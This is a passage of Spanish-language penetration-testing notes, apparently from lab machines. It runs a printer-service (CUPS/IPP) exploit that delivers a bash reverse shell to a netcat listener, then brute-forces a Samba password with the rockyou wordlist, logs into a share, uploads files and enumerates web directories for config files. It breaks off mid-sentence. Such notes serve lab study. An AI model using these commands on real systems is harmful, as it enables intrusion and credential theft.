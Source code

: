 Instala el paquete dentro del entorno

pip install ippserver

Ejecuta el exploit usando Python dentro del entorno virtual

python exploit.py 192.168.42.133 192.168.42.143 "bash -c 'bash -i >& /dev/tcp/192.168.42.133/443 0>&1'"

nos ponemos a la escucha nc -lvnp 443

luego en la web entramos por el puerto 631 y en impresoras veremos una impresora llamada HACKED_IP-KALI

Ahora para que el comando se ejecute, deberemos entrar en ella y desglosar Maintenance y luego clic en "print test page". Una vez hecho recibiremos una shell por el puerto 443 y listo estooy dentro.

-------------------------------------------------------------------------------

7.- SAMBA

139/tcp open  netbios-ssn  
445/tcp open  microsoft-ds 

Enumerar usuarios, dominios

enum4linux 192.168.42.144 -> S-1-22-1-1000 Unix User\s3cur4 (Local User)

Fuerza bruta 

sudo netexec smb 192.168.42.144 -u 's3cur4' -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding | grep -v "STATUS_LOGON_FAILURE"

EXEC\s3cur4:123456 (Guest)

Enumerar recursos compartidos para s3cur4:

smbmap -H 192.168.42.144 -u s3cur4 -p 123456

server  READ, WRITE Developer Directory


loguearme
smbclient //192.168.42.144/server -U s3cur4%123456

subir un archivo
put archivo.ext

Magic script

si tenemos un recurso compartido, samba (139, 445) y no podemos podemos acceder a la máquina es bueno revisar archivos conf,yaml,env,xml

enumeramos:

feroxbuster --url http://192.168.0.251 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x conf,yaml,env,xml

ejemplo

máquina magic - Vulnyx

si dentro del archivo conf encontramos algo como:
